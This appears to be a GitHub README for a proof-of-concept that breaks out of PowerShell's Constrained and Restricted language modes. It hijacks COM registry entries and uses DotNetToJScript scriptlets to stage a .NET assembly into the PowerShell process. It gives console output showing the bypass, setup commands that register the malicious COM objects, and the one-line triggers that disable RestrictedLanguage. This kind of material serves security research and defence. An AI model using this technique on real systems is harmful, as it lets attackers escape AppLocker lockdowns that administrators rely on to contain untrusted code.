


# DotNetToJScript Constrained/Restricted LanguageMode Breakout

This repository is based on a post by [@_xpn_](https://twitter.com/_xpn_), more details available [here](https://www.mdsec.co.uk/2018/09/applocker-clm-bypass-via-com/).

Xpn's post outlines a bug of sorts where ConstrainedLanguage, when enforced through AppLocker does not prevent COM invocation. Because of this it is possible to define a custom COM object in the registry and force PowerShell to load a Dll. On load it is possible to change the LanguageMode to FullLanguage and break out of the restricted shell.

This repo is a variation on this technique where a DotNetToJScript scriptlet is used to directly stage a .Net assembly into the PowerShell process.

## Notes

There is a similar bug to the one outlined above. While it is not possible to invoke COM objects from ConstrainedLanguage, for some reason this does not apply to RestrictedLanguage.

```powershell
# ConstrainedLanguage
PS C:\> $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
PS C:\> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
PS C:\> New-Object -ComObject WScript.Shell
New-Object : Cannot create type. Only core types are supported in this language mode.
At line:1 char:1
+ New-Object -ComObject WScript.Shell
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (:) [New-Object], PSNotSupportedException
    + FullyQualifiedErrorId : CannotCreateComTypeConstrainedLanguage,Microsoft.PowerShell.Commands.NewObjectCommand

# RestrictedLanguage
PS C:\> $ExecutionContext.SessionState.LanguageMode = "RestrictedLanguage"
PS C:\> $ExecutionContext.SessionState.LanguageMode
At line:1 char:1
+ $ExecutionContext.SessionState.LanguageMode
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Property references are not allowed in restricted language mode or a Data section.
PS C:\Users\b33f> New-Object -ComObject WScript.Shell

SpecialFolders     CurrentDirectory
--------------     ----------------
System.__ComObject C:\Users\b33f
```

As a result this is also a breakout for RestrictedLanguage mode which is demonstrated in this POC. It should be noted that being "allowed to invoke COM objects" is actually inconsequential because it is trivial to hijack and existing HKCU COM reference.. yolo..

## Instructions

Either compile PLM.dll and create scriptlets for PLM.SetRL/PLM.KillRL or use the pre-generated scriptlets (**tested only on RS3/RS4**). The repo includes a PowerShell script to set up and clean up the registry entries for the POC.

```powershell
# Set up
PS C:\> . .\Stage-RLTestCase.ps1
PS C:\> Stage-RLTestCase -EnableRLSCT C:\Full\Path\EnableRL.sct -DisableRLSCT C:\Full\Path\DisableRL.sct

# Clean
PS C:\> Stage-RLTestCase -Clean
```

After running Stage-RLTestCase you should be able to issue the following command and get a MsgBox popup.

```powershell
New-Object -ComObject EnableRL
```



To disable RestrictedLanguage simply issue the following command.

```powershell
New-Object -ComObject DisableRL
```

